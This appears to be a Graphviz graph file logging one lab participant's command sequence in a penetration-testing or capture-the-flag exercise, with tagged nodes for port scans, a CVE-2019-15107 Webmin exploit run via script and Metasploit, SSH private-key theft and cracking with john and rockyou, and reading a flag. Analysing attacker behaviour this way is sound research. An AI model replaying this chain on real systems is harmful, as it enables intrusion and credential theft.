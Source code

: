 // creating graph for user: 86
digraph {
	node [shape=box]
	2 [label="nmap 172.18.1.5 -p 0-65535 M0 "]
	9 [label="python CVE_2019_15107.py http://172.18.1.5:10000 A13 "]
	10 [label="python CVE_2019_15107.py http://172.18.1.5:10000 id A13 "]
	11 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	12 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	13 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	14 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	15 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -l /root' A10 A13 "]
	17 [label="nmap 172.18.1.5 A1 "]
	18 [label="nmap 172.18.1.0/24 A1 "]
	19 [label="nmap 172.18.0.0/16 A1 "]
	20 [label="nmap 172.18.0.0/16 A1 "]
	23 [label="msfconsole M2 "]
	24 [label="use exploit/linux/http/webmin_backdoor M8 "]
	26 [label="search webmin M3 "]
	28 [label="show targets A5 "]
	29 [label="set target 0 A6 "]
	30 [label="set target 1 A6 "]
	31 [label="show options M5 "]
	32 [label="set RHOSTS 172.15.1.5 M6 "]
	59 [label="ssh eve@10.1.17.4 M16 "]
	65 [label="chmod 0600 /root/.ssh/id_rsa M15 "]
	75 [label="john mypasswd A14 "]
	77 [label="cat .ssh/id_rsa M12 "]
	78 [label="cat .ssh/id_rsa.pub A1 A11 A17 "]
	79 [label="ls A10 "]
	82 [label="localte ssh2john.py A14 "]
	83 [label="locate ssh2john.py A1 A10 A11 A14 A17 "]
	84 [label="python ssh2john.py id_rsa M13 "]
	85 [label="python ssh2john.py id_rsa > ssh.john A14 "]
	86 [label="john ssh.john A14 "]
	87 [label="john ssh.john A14 "]
	88 [label="cat .john/john.rec A1 A11 A14 A17 "]
	90 [label="john ssh.john A14 "]
	92 [label="cat rockyou.txt.gz A1 A11 A17 "]
	93 [label="locate rockyou A1 A10 A11 A17 "]
	94 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 "]
	95 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 "]
	96 [label="ls /usr/share/wordlists/rockyou.txt A10 "]
	98 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	99 [label="john ssh.john A14 "]
	100 [label="locate rocky A1 A10 A11 A17 "]
	101 [label="ls /usr/share/wordlists/ A10 "]
	103 [label="ls /usr/share/wordlists/metasploit A10 "]
	105 [label="locate ssh2john.py A1 A10 A11 A14 A17 "]
	106 [label="diff ssh2john.py /usr/share/john/ssh2john.py A14 "]
	108 [label="ls A10 "]
	109 [label="python /usr/share/john/ssh2john.py id_rsa > ssh2.jogn A14 "]
	110 [label="diff ssh.john ssh2.jogn A14 "]
	111 [label="john ssh.john --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	112 [label="cat /usr/share/wordlists/rockyou.txt  A1 A11 A17 "]
	113 [label="cat /usr/share/wordlists/rockyou.txt  A1 A11 A17 "]
	116 [label="ls A10 "]
	118 [label="ls A10 "]
	119 [label="cat flag.txt M17 "]
	121 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	0 -> 2 [constraint=false]
	2 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 26 [constraint=false]
	26 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 59 [constraint=false]
	59 -> 65 [constraint=false]
	65 -> 75 [constraint=false]
	75 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 116 [constraint=false]
	116 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 121 [constraint=false]
	rankdir=LR
}
